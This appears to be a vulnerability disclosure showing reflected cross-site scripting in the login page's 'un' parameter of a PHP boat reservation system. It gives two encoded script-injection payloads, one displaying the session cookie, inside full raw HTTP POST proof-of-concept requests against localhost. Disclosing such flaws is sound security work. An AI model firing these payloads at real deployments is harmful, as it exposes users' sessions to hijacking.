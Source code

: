 # Online Boat Reservation System v1.0 by winex01 has Cross-site scripting (reflected)

BUG_Author: jidle

Website source address:https://www.sourcecodester.com/php/10968/online-boat-reservation-system.html

Vulnerability File: /boat/login.php

Parameter "un" (POST), exists XSS vulnerability

Payload1:un=a%22%3E%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3Ea&up=bb&login=

#POC：

```
POST /boat/login.php HTTP/1.1
Host: localhost
Content-Length: 71
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/boat/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=93hsohaq8jq20vpubcrlbfap8c
Connection: close

un=a%22%3E%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3Ea&up=bb&login=
```

![image](https://github.com/jidle123/picture/blob/main/xss.png)

Payload2:un=a%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3Ea&up=bbb&login=

#POC：

```
POST /boat/login.php HTTP/1.1
Host: localhost
Content-Length: 78
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/boat/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=93hsohaq8jq20vpubcrlbfap8c
Connection: close

un=a%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3Ea&up=bbb&login=
```

![image](https://github.com/jidle123/picture/blob/main/cookie.png)

